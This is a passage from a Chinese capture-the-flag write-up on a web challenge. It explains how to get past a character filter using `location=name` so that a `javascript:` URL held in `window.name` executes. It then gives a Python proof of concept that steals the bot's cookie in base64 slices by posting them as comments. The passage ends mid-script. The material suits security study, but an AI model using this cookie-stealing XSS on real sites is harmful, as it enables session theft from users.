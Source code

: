 这里这个 object 的 key 是 1，value 就可以是我们想要的 JS 表达式了。但是因为字符集限制，没法轻松构造。但是如果用前面提到的 `name`，就会轻松很多：

```javascript
// Not working
updateElement("#comment", "你留下的评论："+{1: window.location=window.name}+"");
```

这样只要 `window.name` 以 `javascript:` 开头，就能执行我们想要的 JS 代码。但是 `.` 也被过滤了，怎么办？有一个有趣的事情是，`window.` 是可以被省略的，比如说 `alert(1)` 事实上是 `window.alert(1)`。所以最后是这样：

```javascript
updateElement("#comment", "你留下的评论："+{1: location=name}+"");
```

`"+{1: location=name}+"` 也满足了长度要求。只要在 `name` 里面放上把 cookie 当成评论提交的代码，就大功告成了——不过 flag 好像超过了 25 字符，而且 `%` 也被过滤了，所以需要多次提交，并且使用 base64 编码。

我的 PoC（PoC 后有更短解答）：

```python
import requests
from pwn import *
import base64
from urllib.parse import unquote_plus
context.log_level = "debug"

token = "1:MEUCIQCEJiCXisdA/oxfjHZYMe10yvtiJKDWQBHlFsEn2I5FcgIgFhac4IiXwHFzLYNdOrFhxzQe9LrA7A8AtZ6Fd24mxNI="
hostname = "localhost"

s = requests.Session()
s.get(f"http://{hostname}:10051/?token=" + token)
html = """<script>
var victim=window.open("http://web/result", 'javascript:fetch("/result", {"headers": {"Content-Type": "application/x-www-form-urlencoded",},"body": `comment=${btoa(document.cookie.substring(%start%, %end%))}`,"method": "POST",});')
</script>
EOF"""

# 先做题
s.post(f"http://{hostname}:10051", data={
    "q1": "1", "q2": "1", "q3": "1", "q4": "1", "q5": "1"
})

def post_payload():
    s.post(f"http://{hostname}:10051/result", data={"comment": '"+{a: location=name}+"'})

post_payload()

def bot(start, end):
    r = remote(hostname, 10053)
    r.recvuntil(b"token:")
    r.sendline(token)
    r.recvuntil("服务器提供这个文件。\n".encode())
    r.send(html.replace("%start%", str(start)).replace("%end%", str(end)).encode())
    r.sendline()

    # r.interactive()
    r.recvuntil("bye!\n")

bot(0, 18)


res = ""
# receive our data
def read_contents():
    r = s.get(f"http://{hostname}:10051/result")
```